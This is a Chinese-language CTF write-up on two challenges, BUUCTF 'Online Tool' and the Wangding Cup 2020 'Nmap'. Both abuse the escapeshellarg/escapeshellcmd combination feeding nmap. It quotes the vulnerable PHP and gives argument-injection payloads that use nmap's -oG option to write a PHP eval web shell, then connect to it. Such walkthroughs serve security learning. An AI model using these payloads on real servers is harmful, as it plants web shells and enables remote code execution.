




# 1.escapeshellarg()函数和escapeshellcmd()函数
参考：https://blog.csdn.net/RABCDXB/article/details/115360423
- [BUUCTF 2018]Online Tool
```php
<?php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
namp命令中有一个参数-oG 可以将命令和结果写到文件中，payload：
?host='<?php @eval($_POST["a"]);?> -oG 1.php '

Starting之前就是文件夹名称

蚁剑连接http://2b5a7644-9b61-4ac5-ab21-0bb047e788a2.node5.buuoj.cn:81/a35195adc6931b376a1d8cf360ec9fd2/1.php,密码是a
根目录下拿到flag

# 2.nmap命令执行
- [网鼎杯 2020 朱雀组]Nmap

使用-oG命令将扫描后的结果存入文件，文件格式自己设置，payload：
' <?php @eval($_POST['x']); ?> -oG shell.php '
回显hacker，修改为phtml
' <?php @eval($_POST['r1']); ?> -oG shell.phtml '
访问/shell.phtml
成功写入，蚁剑连接拿到flag